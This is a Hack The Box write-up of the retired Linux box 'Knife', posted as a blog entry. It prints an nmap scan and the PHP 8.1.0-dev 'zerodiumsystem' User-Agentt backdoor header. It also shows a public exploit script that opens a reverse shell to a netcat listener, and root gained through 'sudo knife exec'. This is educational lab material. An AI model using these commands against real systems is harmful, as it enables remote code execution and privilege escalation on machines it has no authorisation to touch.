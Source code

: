 ```yaml
---
layout: post
title: "HTB: Knife"
author: Andrew Cherney
date: 2023-02-19 20:18:57
tags: htb easy-box linux webapp sudo
icon: "assets/icons/knife.png"
post_description: "Simplicity at its finest. A quick backdoor exploit from a vulnerable php version, and then a trip to GTFOBins can root this box. Bare bones and to the point."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nmap -sC 10.10.10.242
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-21 20:13 CST
Nmap scan report for 10.10.10.242
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
```

<h2>Port 80 - http</h2>

![EMA front page](/img/knife/Knife_front_page.png)

I scour through some html and javascript code before checking the Wappalyzer add-on. This lets me see what is being used in the page, everything from CDNs and coding languages to OS and server versions (all dependent on how locked down the data leak is). 

<h1>User as james</h1>

<h2>Zerodium PHP</h2>

![php version](/img/knife/Knife_wappalyzer_php_version.png)

The version 8.1.0 of php (if the dev version) had a specific backdoor built in. If you add <code>User-Agentt: zerodiumsystem('commands');</code> as a header you can pass remote code to run on the underlying machine through php. [This github repo](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) has two versions of the exploit for ease of use. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $python3 php-8.1.0-backdoor.py http://10.10.10.242 10.10.14.14 7777
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.242] 58574
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
cd /home/james
james@knife:~$ cat user.txt
cat user.txt
1bfa9885436-------------------
```


<h1>Root</h1>

<h2>GTFOBins</h2>

```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Well this is a cut and dry easy box solution. GTFOBins will have a command to use for priv esc if I can use sudo with it. 

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
whoami
root
cat /root/root.txt
fdafbecbde81---------------------
```

